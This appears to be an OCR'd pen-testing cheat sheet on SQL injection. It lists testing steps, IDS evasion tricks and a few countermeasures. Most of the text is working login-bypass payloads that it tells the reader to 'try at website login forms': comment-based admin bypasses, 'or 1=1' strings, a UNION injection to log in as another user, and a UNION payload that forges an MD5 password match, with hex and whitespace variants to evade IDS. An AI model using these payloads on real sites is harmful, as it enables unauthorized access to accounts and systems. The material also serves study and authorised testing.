  SQL Injection Black Box Pen Testing

 Send single quotes and input data to see where the user input is not sanitized

 Send long strings of junk data to detect buffer overruns 

 Used right square bracket as input data

 use tools dawg

Evasion Techniques 

 Evading IDS

 Obscure input strings

 Hex Encoding 

 Manipulating whitespace

 Inline Comment

 Char encoding

Countermeasures

 Use Firewalls on SQL server 

 Make no assumptions about size, type, or content of the data that is received by the application

 Avoid constructing dynamic SQL with concatenated input values 

 

try these at website login forms

admin' --

admin' #

admin' /*

' or 1=1--

' or 1=1#

' or '1'='1--

try logging in as a different user

 ' UNION SELECT 1, 'anotheruser','doesntmatter, 1--

try to bypass login by avoiding MD5 hash check

 username : admin

 password : 1234 AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055

 (81dc9bdb52d04dc20036dbd8313ed055 == MD5(1234))

try evading IDS by using the hex of above

try evading ISD by adding a lot of white space between commands above

 

############################################################[15]#######################################################################
